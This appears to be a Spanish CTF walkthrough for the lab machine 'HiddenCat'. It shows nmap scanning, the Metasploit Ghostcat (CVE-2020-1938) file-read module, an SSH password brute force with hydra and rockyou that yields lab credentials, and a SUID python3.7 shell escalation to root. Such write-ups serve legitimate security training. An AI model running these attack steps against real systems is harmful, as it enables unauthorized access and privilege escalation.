

# **Máquina: HiddenCat**

### **Dificultad:** Fácil

### 📝 **Descripción:**


### 🎯 **Objetivo:**


---

## 🖥️ **Despliegue de la máquina**

Primero descargamos la máquina vulnerable `hiddencat.zip`, la descomprimimos con `unzip` y luego la desplegamos utilizando el script proporcionado:

```bash
unzip hiddencat.zip
sudo bash auto_deploy.sh hiddencat.tar
```

Esto levanta la máquina en un entorno Docker.


---

## 📡 **Comprobación de conectividad**

Hacemos un ping a la IP asignada (`172.17.0.3`) para confirmar que la máquina está activa:

```bash
ping -c1 172.17.0.3
```


---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo con `nmap` para detectar todos los puertos abiertos de la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:

* **22 (SSH)**
* **8009 (SSH)**
* **8080 (HTTP)**
  

Posteriormente, con un script personalizado `extractPorts`, extraemos los puertos encontrados y los usamos para un escaneo más profundo:

```bash
nmap -sCV -p22,8080 172.17.0.3 -oN target.txt
```


---
Entramos a la pagina alojada http://172.17.0.3:8080/ donde se puede la version que se esta usando Apache Tomcat/9.0.30 use searchsploit Tomcat para buscar alguna vulnerabilidad pero no encontre ninguna interesante asi que busque en internet y eocntre: https://www.exploit-db.com/exploits/49039 una vulnerabilidad Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)


---


Para usar este script cree mkdir -p ~/.msf4/modules/auxiliary/scanner/http/ y nano ~/.msf4/modules/auxiliary/scanner/http/ghostcat.rb y en ghostcat.rb pegue todo el scrip lo guarde y lo cerre 
Abri: msfconsole
y recargue los modulos: reload_all
despues use el modulo que cree: use auxiliary/scanner/http/ghostcat

y se realizan las configuraciones:
set RHOSTS 172.17.0.3
set RPORT 8009
set FILEPATH WEB-INF/web.xml
run

Al comenzar con el ataque se logra explotar Ghostcat (CVE-2020-1938) con éxito y descargar el archivo WEB-INF/web.xml del servidor donde se puede ver que existe un usuario Jerry.

Notas: el parámetro FILEPATH sirve para especificar qué archivo quieres leer desde el servidor vulnerable, aprovechando el conector AJP de Apache Tomcat que lo espesificamos con set RPORT 8009 ya que gracias a nmap encontramos que lo esta usando.

Con el usuario descubirto use hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4 para encontrar un contraseña para entrar al servicio de SSH y encontre las credenciales: 
[22][ssh] host: 172.17.0.3   login: jerry   password: chocolate
Con esta informacion entre al servicio SSH con exito


Se identificó python3.7 con SUID usando find / -perm -4000 2>/dev/null, lo que permite ejecutar código como root. Con /usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' se abrió una shell privilegiada. Finalmente, whoami confirmó el acceso como root. Así se logró la escalada local desde jerry a root.


